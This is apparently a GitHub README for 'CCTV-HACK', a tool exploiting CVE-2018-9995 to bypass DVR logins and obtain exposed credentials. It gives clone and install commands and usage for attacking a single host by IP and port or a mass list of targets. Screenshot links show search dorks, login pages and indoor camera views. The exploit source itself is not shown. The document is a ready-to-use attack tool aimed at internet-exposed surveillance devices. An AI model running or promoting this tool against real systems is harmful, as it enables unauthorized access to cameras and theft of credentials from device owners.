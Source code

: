 #  [Exploit] DVR LOGIN BYPASS (CCTV-HACK)
<p>  
CVE:                CVE-2018-9995
CVSS Base Score v3:      7.3 / 10
</p>

	
![DVR_wall](screenshot/videowall.jpg) 


# On the Wild:

![DVR_dorks_2](screenshot/d1.jpg)
![DVR_dorks_3](screenshot/d2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/login1.jpg)
![DVR_login_2](screenshot/login2.jpg)
![DVR_login_3](screenshot/login3.jpg)

## Indoor:
![DVR_indoor_1](screenshot/in.jpg)
![DVR_indoor_2](screenshot/in1.jpg)
![DVR_indoor_3](screenshot/in2.jpg)



# TOOL: "CCTV-HACK"

## Installation Code
'''

	git clone https://github.com/tausifzaman/cctv-hack
	cd cctv-hack
	pip install -r requirements.txt
    python cctv.py

'''

## Usages 

	usage: python cctv.py
or,             python cctv.py --host 109.100.130.57 --port 8000
or,             python cctv.py -m target.txt

	[+] Obtaining Exposed credentials

options:
  -h, --help            show this help message and exit
  --host HOST           Host
  --port PORT           Port
  -m MASS, --mass MASS  File with host:port or URL list


## Pocs (Output) :
![DVR_poc_4](screenshot/output.jpg)


